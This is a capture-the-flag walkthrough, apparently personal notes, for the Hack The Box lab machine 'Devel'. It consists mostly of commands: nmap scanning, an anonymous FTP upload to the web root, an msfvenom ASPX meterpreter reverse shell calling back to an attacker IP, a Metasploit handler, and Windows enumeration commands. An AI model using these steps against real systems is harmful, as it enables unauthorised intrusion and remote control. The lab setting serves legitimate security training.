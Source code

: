 https://app.hackthebox.com/machines/3

**Devel** *(EASY - RETIRED)*

```
sudo nmap -A -T4 -p- 10.129.234.141
```

![[Pasted image 20230530170427.png]]

```
echo "this is a test" > test.txt
```

![[Pasted image 20230530164800.png]]

```
ftp 10.129.234.141
```

*anonymous : anonymous*

```
put test.txt
```

![[Pasted image 20230530170808.png]]

```
http://10.129.234.141/test.txt
```

![[Pasted image 20230530170845.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > exploit.aspx
```

![[Pasted image 20230530171010.png]]

```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20230530171632.png]]

![[Pasted image 20230530171753.png]]

![[Pasted image 20230530171849.png]]

![[Pasted image 20230530171931.png]]

```
getuid

sysinfo
```

![[Pasted image 20230530172139.png]]

```
pwd

shell

systeminfo
```

![[Pasted image 20230530172652.png]]

![[Pasted image 20230530172758.png]]

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![[Pasted image 20230530173134.png]]

```
hostname

wmic qfe
```

![[Pasted image 20230530173421.png]]

*WMIC - Windows Management Instrumentation Command*

*qfe - quick-fix engineering*

[Win32_QuickFixEngineering class - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering?redirectedfrom=MSDN)

![[Screenshot 2023-05-30 175339.png]]

